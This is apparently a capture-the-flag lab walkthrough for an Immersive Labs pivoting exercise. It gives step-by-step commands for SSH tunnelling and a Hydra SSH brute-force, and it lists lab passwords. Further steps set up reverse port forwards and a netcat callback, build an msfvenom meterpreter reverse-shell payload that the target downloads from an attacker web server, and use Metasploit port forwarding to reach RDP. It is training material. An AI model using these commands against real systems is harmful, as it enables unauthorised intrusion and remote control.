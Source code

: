 ```yaml
---
date: 2025-03-01
categories: [CTF, ImmersiveLabs]
title: "IML - Infrastructure Pen Testing: Ep.7 — Pivoting"
tags: ['hydra', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Infrastructure Pen Testing Ep - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting


![image1](../resources/5c9a57ca981f4eecab592d75a051e28d.png)

![image2](../resources/b70f40d5e07c44ee85804e505797152c.png)

Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```

![image3](../resources/8c001310ce5342bbbbee1b72afd4cfbf.png)

2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```

![image4](../resources/c4f91f3878144690ad885688efb79eb4.png)

3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):

```bash
ssh root@localhost -p 2222

```

![image5](../resources/0e95f194048048259275d46e17513a25.png)

IP's changed

![image6](../resources/51ec4caab6944c13bc33e465e2653707.png)

4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)

```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)

```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to <http://10.102.43.238>

- Create msfvenom payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf


![image7](../resources/b3f7337ae52244a28649af39294a54d0.png)

6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```

![image8](../resources/cfa5ddc2e95545febf940bbbf6492b58.png)

```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```

![image9](../resources/01f260de1db541d2a3217cd377877f93.png)
